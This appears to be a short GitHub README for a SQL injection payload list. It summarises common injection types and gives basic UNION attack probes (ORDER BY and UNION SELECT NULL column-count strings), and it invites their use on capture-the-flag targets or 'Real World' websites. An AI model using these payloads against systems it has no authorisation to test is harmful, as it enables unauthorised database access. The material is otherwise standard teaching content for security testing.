 # SQL-Payload-

List of ALl SQL PAyload to be used for CTF or Real World Website !

![image](https://user-images.githubusercontent.com/82144868/210714729-ed83ccfa-6f56-4dce-ae99-d2c3ae8657b0.png)

SQL injection examples
There are a wide variety of SQL injection vulnerabilities, attacks, and techniques, which arise in different situations. Some common SQL injection examples include:

Retrieving hidden data, where you can modify an SQL query to return additional results.
Subverting application logic, where you can change a query to interfere with the application's logic.
UNION attacks, where you can retrieve data from different database tables.
Examining the database, where you can extract information about the version and structure of the database.
Blind SQL injection, where the results of a query you control are not returned in the application's responses.


UNION ATTACK 

*' ORDER BY 1--
*' ORDER BY 2--
*' ORDER BY 3--
etc.

*' UNION SELECT NULL--
*' UNION SELECT NULL,NULL--
*' UNION SELECT NULL,NULL,NULL--
etc


